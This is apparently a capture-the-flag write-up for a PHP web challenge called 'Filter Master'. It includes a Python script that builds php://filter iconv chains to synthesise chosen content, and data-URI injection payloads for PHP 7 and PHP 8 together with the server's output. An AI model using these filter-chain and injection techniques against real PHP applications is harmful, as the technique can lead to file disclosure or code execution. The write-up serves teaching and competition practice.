 # Filter Master

* Round: 28 (2022/11)
* Category: Web
* Points: 125
* Solves: 10

## Description

Do you want the flag? Please ask nicely in the language of PHP filters.

## Solution

You can modify https://github.com/wupco/PHP_INCLUDE_TO_SHELL_CHAR_DICT to prepend more `convert.iconv.UTF8.CSISO2022KR` to get rid of `>` characters in the final decoded string, and use `string.strip_tags` (removed in PHP 8) to strip the remaining characters.

```python
from base64 import b64encode


file_to_use = "/dev/null"
base64_payload = b64encode(b"plz give me the flag<").decode().replace("=", "")

# generate some garbage base64
filters = "convert.iconv.UTF8.CSISO2022KR|"
filters += "convert.iconv.UTF8.CSISO2022KR|"
filters += "convert.iconv.UTF8.CSISO2022KR|"
filters += "convert.iconv.UTF8.CSISO2022KR|"
filters += "convert.iconv.UTF8.CSISO2022KR|"
filters += "convert.iconv.UTF8.CSISO2022KR|"
filters += "convert.base64-encode|"
# make sure to get rid of any equal signs in both the string we just generated and the rest of the file
filters += "convert.iconv.UTF8.UTF7|"


for c in base64_payload[::-1]:
    filters += open("./res/" + (str(hex(ord(c)))).replace("0x", "")).read() + "|"
    # decode and reencode to get rid of everything that isn't valid base64
    filters += "convert.base64-decode|"
    filters += "convert.base64-encode|"
    # get rid of equal signs
    filters += "convert.iconv.UTF8.UTF7|"

filters += "convert.base64-decode"
filters += "|string.strip_tags"

final_payload = f"php://filter/{filters}/resource={file_to_use}"

with open("test.php", "w") as f:
    f.write('<?php echo file_get_contents("' + final_payload + '");?>')
print(filters)

# import os

# os.system("php7 test.php")
```

## Unintended Solution

You can also put `resource=` with data uri inject your own data, and I have thought of this when I designed the challenge, but I can't imagine how can you apply more filters after that. :thinking:

The real surprise here is that PHP will still try to find filters to use even if it is in the data uri part! So sending the following payload to the server:

```
resource=data:,plz give me the flag<|string.strip_tags|
```

The full url will be:

```
php://filter/resource=data:,plz give me the flag<|string.strip_tags|/resource=/dev/null
```

And the web server will return a bunch of warnings along with the flag:

```
Warning: file_get_contents(): unable to locate filter "resource=data:,plz give me the flag<" in /var/www/html/index.php on line 11

Warning: file_get_contents(): Unable to create filter (resource=data:,plz give me the flag<) in /var/www/html/index.php on line 11

Warning: file_get_contents(): unable to locate filter "resource=" in /var/www/html/index.php on line 11

Warning: file_get_contents(): Unable to create filter (resource=) in /var/www/html/index.php on line 11

Warning: file_get_contents(): unable to locate filter "dev" in /var/www/html/index.php on line 11

Warning: file_get_contents(): Unable to create filter (dev) in /var/www/html/index.php on line 11

Warning: file_get_contents(): unable to locate filter "null" in /var/www/html/index.php on line 11

Warning: file_get_contents(): Unable to create filter (null) in /var/www/html/index.php on line 11
ictf{maybe_this_is_the_last_php_7.4_challenge_before_its_EOL}
```

From the warning, we can see PHP is finding the filters by simply splitting on `|`, so the `string.strip_tags` will still be applied to

```
plz give me the flag<|string.strip_tags|/resource=/dev/null
```

So the output will be `plz give me the flag`, which solves this challenge.

Also, this also works in PHP 8, but you need to use `dechunk` instead because `string.strip_tags` is removed:

```
resource=data:,14%0D%0Aplz give me the flag%0D%0A0|dechunk|
```

This `dechunk` payload is a simplified version of what @SamXML sent me.
